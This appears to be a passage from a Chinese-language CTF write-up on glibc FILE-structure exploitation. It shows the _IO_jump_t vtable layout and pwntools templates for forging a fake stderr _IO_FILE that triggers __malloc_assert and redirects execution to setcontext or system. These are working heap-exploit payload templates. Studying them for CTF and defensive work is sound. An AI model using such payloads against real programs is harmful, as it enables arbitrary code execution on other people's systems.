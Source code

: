 ```C
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
#if 0
    get_column;
    set_column;
#endif
};
```
##### &emsp;&emsp;&emsp;对于__malloc_assert的触发方法, 我们需要伪造stderr结构体, 以下是一个通用的模板(https://bbs.kanxue.com/thread-273895.htm#msg_header_h3_5)
```python
fake_io_addr=heapbase+0xb00 # 伪造的fake_IO结构体的地址
next_chain = 0
fake_IO_FILE=p64(rdi)         #_flags=rdi
fake_IO_FILE+=p64(0)*7
fake_IO_FILE +=p64(1)
fake_IO_FILE +=p64(2) #_IO_saveup_base rcx!=0(FSOP)
fake_IO_FILE +=p64(fake_io_addr+0xb0)#_IO_backup_base=rdx
fake_IO_FILE +=p64(call_addr)#_IO_save_end=call addr(call setcontext/system)
fake_IO_FILE = fake_IO_FILE.ljust(0x68, '\x00')
fake_IO_FILE += p64(0)  # _chain
fake_IO_FILE = fake_IO_FILE.ljust(0x88, '\x00')
fake_IO_FILE += p64(heapbase+0x1000)  # _lock = a writable address
fake_IO_FILE = fake_IO_FILE.ljust(0xa0, '\x00')
fake_IO_FILE +=p64(fake_io_addr+0x30)#_wide_data,rax1_addr
fake_IO_FILE = fake_IO_FILE.ljust(0xc0, '\x00')
fake_IO_FILE += p64(1) #mode=1
fake_IO_FILE = fake_IO_FILE.ljust(0xd8, '\x00')
fake_IO_FILE += p64(libcbase+0x2160c0+0x10)  # vtable=IO_wfile_jumps+0x10
fake_IO_FILE +=p64(0)*6
fake_IO_FILE += p64(fake_io_addr+0x40)  # rax2_addr
```
##### &emsp;&emsp;&emsp;更加具体的模板, 来自https://xz.aliyun.com/t/13016?time__1311=GqmhBKYKGIqGx0HQ1DunFG8YwpVDpYD
```c
fake_struct = p64(0)                    #_IO_read_end
fake_struct += p64(0)                   #_IO_read_base
fake_struct += p64(0)                   #_IO_write_base
fake_struct += p64(0)                   #_IO_write_ptr
fake_struct += p64(0)                   #_IO_write_end
fake_struct += p64(0)                   #_IO_buf_base
fake_struct += p64(1)                   #_IO_buf_end
```